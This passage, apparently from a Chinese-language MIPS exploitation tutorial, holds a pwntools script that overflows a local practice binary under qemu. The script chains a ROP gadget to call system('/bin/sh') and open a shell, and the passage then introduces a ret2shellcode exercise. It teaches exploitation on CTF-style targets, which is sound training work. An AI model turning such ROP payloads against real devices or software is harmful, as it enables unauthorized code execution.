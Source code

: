 ![图片](https://raw.githubusercontent.com/pwnkk/pwnkk.github.io/master/_posts/IMG/MIPS101/G6J86x90RT8M9hsr.png)

exp2.py 

```
#coding=utf-8
from pwn import *
context.update(os="linux",bits = "32",arch="mips",endian="big",terminal=["tmux","splitw","-h"])
p = process(["/usr/bin/qemu-mips-static","-g","1234 ","./mips"])
sys = 0x040868C
sh = 0x0474D40
gadget1 =  0x0041B724
# |  0x0041B724  |  lw $a0,0x30+var_10($sp)  |  jr    0x30+var_4($sp)
# start $sp+0x18
# $a0 $sp+0x20+0x88 
# sys  = $sp+0x2c+0x88
p1 = ""
p1 = p1.ljust(0x6c,"a")+p32(gadget1)
p1 = p1.ljust(0x20+0x88-0x18 ,"a")+p32(sh)
p1 = p1.ljust(0x2c+0x88-0x18 ,"a")+p32(sys)
p.sendline(p1)
p.interactive()
```
# level2 : shellcode利用 
如果程序没有NX保护，可以ret2shellcode ，这里用一道题目举例

